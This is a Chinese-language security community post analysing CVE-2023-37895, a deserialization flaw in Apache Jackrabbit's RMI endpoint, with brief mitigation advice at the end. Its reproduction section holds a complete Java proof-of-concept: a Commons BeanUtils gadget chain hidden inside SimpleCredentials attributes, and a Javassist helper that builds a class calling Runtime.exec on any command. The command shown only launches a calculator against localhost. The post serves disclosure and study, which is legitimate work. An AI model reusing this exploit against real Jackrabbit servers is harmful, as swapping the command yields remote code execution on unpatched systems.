 

# 奇安信攻防社区-Apache Jackrabbit 反序列化漏洞分析（CVE-2023-37895）

### Apache Jackrabbit 反序列化漏洞分析（CVE-2023-37895）

Apache Jackrabbit 反序列化漏洞分析（CVE-2023-37895）

# 漏洞分析

Apache Jackrabbit 是一个开源的内容仓库，它实现了 JCR(Java Contents Repository) API 规范。

JCR 是一个用于内容仓库的 Java API，它为内容仓库定义了一套标准接口，以便应用程序可以通过这些标准接口访问不同的内容仓库实现。

Jackrabbit 通过这些 JCR 接口提供了一系列内容仓库功能，比如层次结构节点管理、版本控制、Observation、查询、锁定、事务等。它广泛用于 JavaEE 应用中需要内容仓库功能的场景。

Jackrabbit 的/rmi 路径下提供了 RMI 服务，这可以使远程客户端通过 RMI 协议访问 Jackrabbit 服务器端的内容仓库。客户端可以获取 Repository 对象后，就可以通过 JCR API 对内容仓库进行操作。

通过 web.xml 得到`/rmi`的 Servlet 为`org.apache.jackrabbit.servlet.remote.RemoteBindingServlet`

![image-20230727155734831](assets/1705470930-7e3beeca5e5d72d24b3d7835c1810231.png)

![image-20230727160138191](assets/1705470930-c7cada83b3295bb67f74cf0b25595ccb.png)

这里直接通过`RemoteBindingServlet` 的 `getRemoteRepository()` 方法获取 Repository 对象，然后转化为 Stub 代理对象返回给 Response。

跟进看看具体逻辑

![image-20230727160329701](assets/1705470930-bd6a88c850d6030d6f40eab6aed3c2a4.png)

这里调用 `getRemoteAdapterFactory()` 获取 `RemoteAdapterFactory` 实例，默认是`ServerAdapterFactory`

然后调用 `ServerAdapterFactory` 的 `getRemoteRepository()` 方法获取 Repository 对象

![image-20230727160536822](assets/1705470930-85fddf0b213d97064a2a828b1e7b2d79.png)

当客户端获取到 Repository 对象后，可以调用 Repository 的 login 函数

![image-20230727160726345](assets/1705470930-6f8a6a88b026deacf9f0bd2896128816.png)

跟进到实现类

![image-20230727160806040](assets/1705470930-51d56c664cdc4f2e941ac7ae7cfcd594.png)

继续跟进

![image-20230727160908206](assets/1705470930-7cd3d14ec6c5612cae27714f2dd0ecda.png)

最后通过 RMI 将客户端的 Credentials 类传输到了服务端，其中用的 RMI 底层的 JRMP 协议，将客户端序列化后，将序列化数据传输到服务端后再反序列化。如果我们传输的一个恶意 Credentials 对象，则会执行相关的一些恶意代码

![image-20230727160938886](assets/1705470930-5889513b04cf8c934a41db5c431a1d52.png)

该项目包含了 Commons BeanUtils 组件，可利用 Commons BeanUtils 链构造恶意 Credentials 对象

![image-20230727161306272](assets/1705470930-55ea3e99737b7a1aba6e6f7576732da0.png)

而 Credentials 是一个继承`Serializable`的空接口

![image-20230727161402220](assets/1705470930-5f8b5a0498ec420170d0d777efa44686.png)

我们看到 4 个实现之一的`SimpleCredentials`类，可以用这个类来封装 Commons BeanUtils 攻击链

![image-20230727161437617](assets/1705470930-61511a94026cf39611d0e33148972fb4.png)

SimpleCredentials 类中的 attributes 属性是一个 Map:

private Map<String,Object> attributes \\= new HashMap<String,Object>();

它被声明为可以存储任意 Object 类型对象。我们通过 setAttribute() 方法将构造的恶意 PriorityQueue 对象存放到这个 attributes Map 中

SimpleCredentials exp \\= new SimpleCredentials("admin","admin".toCharArray());  
exp.setAttribute("admin",payload);

当反序列化包含恶意 PriorityQueue 的 SimpleCredentials 对象时，会递归反序列化它的所有属性，其中就包含了 attributes 这个 Map，反序列化 attributes 时，也会反序列化其中存放的 PriorityQueue 对象，这样就会触发 PriorityQueue 对象中的反序列化逻辑，实现 RCE

# 漏洞复现

POC：

package org.example;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.beanutils.BeanComparator;  
import java.lang.reflect.Field;  
import java.util.PriorityQueue;  
​  
import org.apache.jackrabbit.rmi.repository.URLRemoteRepository;  
import javax.jcr.Repository;  
import javax.jcr.SimpleCredentials;  
import static org.example.TemplatesImpl.getTemplatesImpl;  
​  
public class Exp {  
public static void main(String\[\] args) throws Exception {  
byte\[\] code \\= getTemplatesImpl("open -a calculator");  
byte\[\]\[\] codes \\= {code};  
TemplatesImpl obj \\= new TemplatesImpl();  
setFieldValue(obj, "\_bytecodes",codes);  
setFieldValue(obj, "\_name", "aaaa");  
setFieldValue(obj, "\_tfactory", new TransformerFactoryImpl());  
BeanComparator comparator \\= new BeanComparator(null,String.CASE\_INSENSITIVE\_ORDER);  
final PriorityQueue<Object> payload \\= new PriorityQueue<Object>(2, comparator);  
payload.add("1");  
payload.add("1");  
setFieldValue(comparator, "property", "outputProperties");  
setFieldValue(payload, "queue", new Object\[\]{obj, obj});  
​  
​  
SimpleCredentials exp \\= new SimpleCredentials("admin","admin".toCharArray());  
exp.setAttribute("admin",payload);  
Repository repository \\= new URLRemoteRepository("[http://localhost:8080/rmi](http://localhost:8080/rmi)");  
repository.login(exp);  
}  
​  
public static void setFieldValue(Object target, String name, Object value) throws Exception {  
Class c \\= target.getClass();  
Field field \\= c.getDeclaredField(name);  
field.setAccessible(true);  
field.set(target,value);  
}  
}  
​  
​

TemplatesImpl 类

package org.example;  
​  
import javassist.ClassPool;  
import javassist.CtClass;  
import javassist.CtConstructor;  
​  
public class TemplatesImpl {  
public static byte\[\] getTemplatesImpl(String cmd) {  
try {  
ClassPool pool \\= ClassPool.getDefault();  
CtClass ctClass \\= pool.makeClass("Evil");  
CtClass superClass \\= pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");  
ctClass.setSuperclass(superClass);  
CtConstructor constructor \\= ctClass.makeClassInitializer();  
constructor.setBody(" try {\\n" +  
" Runtime.getRuntime().exec(\\"" + cmd +  
"\\");\\n" +  
" } catch (Exception ignored) {\\n" +  
" }");  
byte\[\] bytes \\= ctClass.toBytecode();  
ctClass.defrost();  
return bytes;  
} catch (Exception e) {  
e.printStackTrace();  
return new byte\[\]{};  
}  
}  
}

运行 POC:

![image-20230731114549831](assets/1705470930-cce2b6e9d61cb78c78b96686a6dc12bc.png)

# 处置建议

-   使用网络 ACL 限制访问 JackRabbit 的来源，而且建议如非必要，不要将 JackRabbit 暴露在互联网上
-   官方补丁链接：[https://github.com/apache/jackrabbit/tags](https://github.com/apache/jackrabbit/tags)
